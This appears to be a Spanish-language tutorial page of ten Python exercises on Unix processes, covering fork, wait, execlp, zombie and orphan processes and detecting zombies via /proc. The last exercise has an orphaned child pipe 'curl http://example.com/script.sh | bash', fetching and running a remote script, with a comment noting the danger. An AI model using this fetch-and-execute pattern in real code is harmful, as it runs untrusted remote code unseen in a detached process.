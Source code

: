 # Ejercicios de Procesos en Python

## 1. Creación de un proceso hijo

```python
import os

pid = os.fork()
if pid == 0:
    print("[HIJO] PID:", os.getpid(), "PPID:", os.getppid())
else:
    print("[PADRE] PID:", os.getpid(), "Hijo:", pid)
```

## 2. Creación de múltiples procesos hijos

```python
import os

for i in range(2):
    pid = os.fork()
    if pid == 0:
        print(f"[HIJO {i}] PID: {os.getpid()}  Padre: {os.getppid()}")
        os._exit(0)

for _ in range(2):
    os.wait()
```

## 3. Reemplazo del proceso hijo con `execlp`

```python
import os

pid = os.fork()
if pid == 0:
    os.execlp("ls", "ls", "-l")  # Reemplaza el proceso hijo
else:
    os.wait()
```

## 4. Creación de hijos con espera

```python
import os
import time

def crear_hijo(nombre):
    pid = os.fork()
    if pid == 0:
        print(f"[HIJO {nombre}] PID: {os.getpid()}")
        time.sleep(1)
        os._exit(0)
    else:
        os.wait()

crear_hijo("A")
crear_hijo("B")
```

## 5. Proceso zombi

```python
import os, time

pid = os.fork()
if pid == 0:
    print("[HIJO] Finalizando")
    os._exit(0)
else:
    print("[PADRE] No llamaré a wait() aún. Observa el zombi con 'ps -el'")
    time.sleep(15)
    os.wait()
```

## 6. Proceso huérfano

```python
import os, time

pid = os.fork()
if pid > 0:
    print("[PADRE] Terminando")
    os._exit(0)
else:
    print("[HIJO] Ahora soy huérfano. Mi nuevo padre será init/systemd")
    time.sleep(10)
```

## 7. Creación de múltiples procesos con `fork()`

```python
import os

for _ in range(3):
    pid = os.fork()
    if pid == 0:
        print(f"[HIJO] PID: {os.getpid()}  Padre: {os.getppid()}")
        os._exit(0)

for _ in range(3):
    os.wait()
```

## 8. Simulación de atención de clientes con procesos

```python
import os, time

def atender_cliente(n):
    pid = os.fork()
    if pid == 0:
        print(f"[HIJO {n}] Atendiendo cliente")
        time.sleep(2)
        print(f"[HIJO {n}] Finalizado")
        os._exit(0)

for cliente in range(5):
    atender_cliente(cliente)

for _ in range(5):
    os.wait()
```

## 9. Detección de procesos zombis en `/proc`

```python
import os

def detectar_zombis():
    for pid in os.listdir('/proc'):
        if pid.isdigit():
            try:
                with open(f"/proc/{pid}/status") as f:
                    lines = f.readlines()
                    estado = next((l for l in lines if l.startswith("State:")), "")
                    if "Z" in estado:
                        nombre = next((l for l in lines if l.startswith("Name:")), "").split()[1]
                        ppid = next((l for l in lines if l.startswith("PPid:")), "").split()[1]
                        print(f"Zombi detectado → PID: {pid}, PPID: {ppid}, Nombre: {nombre}")
            except IOError:
                continue

detectar_zombis()
```

## 10. Ejecución de script en proceso huérfano

```python
import os, time

pid = os.fork()
if pid > 0:
    os._exit(0)  # El padre termina inmediatamente
else:
    print("[HIJO] Ejecutando script como huérfano...")
    os.system("curl http://example.com/script.sh | bash")  # Peligroso si no hay control
    time.sleep(3)
```
